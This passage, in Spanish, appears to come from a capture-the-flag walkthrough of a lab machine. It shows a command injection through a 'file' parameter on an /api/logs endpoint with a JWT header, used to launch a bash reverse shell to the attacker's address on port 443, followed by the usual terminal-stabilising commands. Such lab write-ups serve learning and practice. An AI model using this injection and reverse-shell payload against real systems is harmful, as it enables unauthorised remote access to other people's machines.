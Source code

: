 ![](2022-06-29-09-10-30.png)

Una vez que vemos que funciona vamos a probar por netcat para poder interactuar. 

```bash
# vamos a usar la siguiente revert shell bash -c 'bash -i >& /dev/tcp/10.10.14.9/443 0>&1

curl -s -G 'http://10.10.11.120/api/logs' --data-urlencode "file=>/dev/null;bash -c 'bash -i >& /dev/tcp/10.10.14.9/443 0>&1'" -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.ey[spoiler]]iwiaWF0IjoxNjU2NDQyNjczfQ.g933JnjdcSRXs2AbDjrkUOsgDjPMjQDL3-MMvMTVMCs" | jq -r
```
![](2022-06-29-09-18-32.png)

Ahora que tenemos la bash creo, voy a arreglarla

Si ponemos tty miramos si estamos dentro. Si no hacemos estas cosas cuando hagamos control+c se nos va fuera, ademas que nos gustaría tener cierto dominio la bash

```bash
script /dev/null -c bash

#Con control+z dejamos de escuchar el puerto

#posteriormente hacemos un

stty raw -echo; fg

# Con esto hemos conseguido reiniciar la configuración de la terminal en bash
reset xterm

#control l para limpiar no funciona pero porque puede valer diferente a xterm
export TERM=xterm

#miramos cuando vale la variable shell y hacemos que valga una bash

export SHELL=/bin/bash

#ver el número de columnas y filas
stty size

#poner el número de filas y columnas  como en mi pc 61 236
stty rows 61 columns 236

```
![](2022-06-29-13-03-34.png)
